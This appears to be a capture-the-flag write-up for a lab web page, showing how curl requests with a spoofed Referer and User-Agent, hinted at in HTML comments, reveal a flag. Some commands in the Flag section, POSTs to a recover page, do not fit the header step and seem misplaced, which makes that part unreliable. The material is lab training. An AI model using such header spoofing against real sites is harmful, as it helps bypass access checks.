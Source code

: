 # Fake headers

__http://192.168.99.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f__

## Description
There are a lot of comments in the html. One of them is 
```
<!--
You must come from : "https://www.nsa.gov/".
-->
```

## Form Outputs
Let's try to request

```
curl http://192.168.99.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f -s -o nohead.html
curl http://192.168.99.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f -H "Referer: https://www.nsa.gov/" -s -o head.html
diff nohead.html head.html 
```
We get the following rows
```
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```
We see FIRST STEP DONE

## Flag
Let's use the next comment:
```
<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```
We see ft_bornToSec header. We can use that for header
```
curl -s 'http://192.168.99.101/?page=recover' --data 'mail=webmaster%40borntosec.com&Submit=Submit' -o webmaster.html
curl -s 'http://192.168.99.101/?page=recover' --data 'mail=krasty%40lnoisome.com&Submit=Submit' -o krasty.html
diff webmaster.html krasty.html 
```
Inside the diff output html we get the flag
```
curl 'http://192.168.99.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" -s -o head.html
diff nohead.html head.html | grep flag
```
The output is with the flag

## Safety
Use Secure Protocols and Headers: Employ HTTPS/TLS for secure communication between the server and the user's browser. Additionally, be mindful of headers such as "Referer" and "User-Agent" and utilize them correctly to ensure the desired behavior and security of your application.
